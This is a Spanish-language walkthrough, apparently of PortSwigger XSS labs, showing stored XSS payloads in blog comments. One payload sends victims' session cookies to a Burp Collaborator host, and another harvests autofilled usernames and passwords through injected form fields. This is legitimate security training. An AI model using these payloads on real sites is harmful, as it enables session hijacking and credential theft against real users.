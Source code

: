 <br />

**Laboratorio 11: Exploiting cross-site scripting to steal cookies**

Este laboratorio contiene una vulnerabilidad XSS almacenada en la función de comentarios del blog.

Un usuario víctima simulado ve todos los comentarios después de su publicación. Para resolver el laboratorio, aproveche la vulnerabilidad para filtrar la cookie de sesión de la víctima y luego use esta cookie para hacerse pasar por la víctima.

Al acceder al laboratorio comprobamos que el parámetro "comment" es susceptible a una inyección HTML simple.

Así empleamos el siguiente script para obtener las cookies de sesión de cualquier usuario que visite dicha página:

```HTML
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

Y empleamos el cliente de BurpCollaborator para el envío de las cookies de la víctima.

Recuperamos esos parámetros para hacernos pasar por el usuario.

<br />

#### 3.2. Exploiting cross-site scripting to perfom CSRF.

En estos días, **muchos usuarios tienen administradores de contraseñas que autocompletan sus contraseñas**. Puede aprovechar esto creando una entrada de contraseña, leyendo la contraseña autocompletada y enviándola a su propio dominio. Esta técnica evita la mayoría de los problemas asociados con el robo de cookies e incluso puede obtener acceso a cualquier otra cuenta en la que la víctima haya reutilizado la misma contraseña.

La principal desventaja de esta técnica es que solo funciona en usuarios que tienen un administrador de contraseñas que realiza el autocompletado de contraseñas. (Por supuesto, si un usuario no tiene una contraseña guardada, aún puede intentar obtener su contraseña a través de un ataque de phishing en el sitio, pero no es exactamente lo mismo).

<br />

**Laboratorio 12: Exploiting cross-site scripting to capture password**

Este laboratorio contiene una Stored XSS vulnerability en la función de comentarios del blog.

Un usuario víctima ve todos los comentarios después de que ser publicados. Para resolver el laboratorio, aproveche la vulnerabilidad para filtrar el nombre de usuario y la contraseña de la víctima y luego use estas credenciales para iniciar sesión en la cuenta de la víctima.

De nuevo, encontramos en el parámetro "comment" de la sección de comentarios una inyección HTML simple. Así, empleamos el siguiente código en el server exploit:

```HTML
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

Para recibir la contraseña y el usuario en el BurpCollaborator client.
